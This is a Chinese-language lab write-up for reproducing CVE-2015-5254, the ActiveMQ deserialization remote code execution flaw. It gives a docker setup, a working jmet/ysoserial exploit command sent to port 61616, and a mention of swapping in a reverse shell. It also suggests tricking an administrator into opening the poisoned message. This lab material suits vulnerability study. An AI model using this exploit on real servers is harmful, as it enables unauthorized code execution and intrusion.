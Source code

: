 # ActiveMQ 反序列化漏洞（CVE-2015-5254）

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

参考链接：

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## 漏洞环境

运行漏洞环境：

```
docker compose up -d
```

环境运行后，将监听61616和8161两个端口。其中61616是工作端口，消息在这个端口进行传递；8161是Web管理页面端口。访问`http://your-ip:8161`即可看到web管理页面，不过这个漏洞理论上是不需要web的。

## 漏洞复现

漏洞利用过程如下：

1. 构造（可以使用ysoserial）可执行命令的序列化对象
2. 作为一个消息，发送给目标61616端口
3. 访问web管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/matthiaskaiser/jmet)进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

![](1.png)

此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：

![](2.png)

点击查看这条消息即可触发命令执行，此时进入容器`docker compose exec activemq bash`，可见/tmp/success已成功创建，说明漏洞利用成功：

![](3.png)

将命令替换成弹shell语句再利用：

![](4.png)

值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。
